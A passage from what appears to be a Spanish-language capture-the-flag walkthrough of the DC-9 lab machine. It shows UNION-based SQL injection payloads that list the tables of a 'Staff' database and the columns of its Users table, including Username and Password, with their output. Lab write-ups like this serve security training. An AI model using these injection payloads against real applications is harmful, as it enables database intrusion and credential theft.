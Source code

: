 ![db](../assets/imgs/dc9/db.png)

##### Tablas de Staff

```
' UNION SELECT table_name,2,3,4,5,6 FROM information_schema.tables where table_schema="Staff"-- -
StaffDetails
Users
```

![tabla1](../assets/imgs/dc9/tabla1.png)

##### Columnas de tablas Users

```
' UNION SELECT column_name,2,3,4,5,6 FROM information_schema.columns where table_schema="Staff" and table_name="Users"-- -
UserID
Username
Password
```
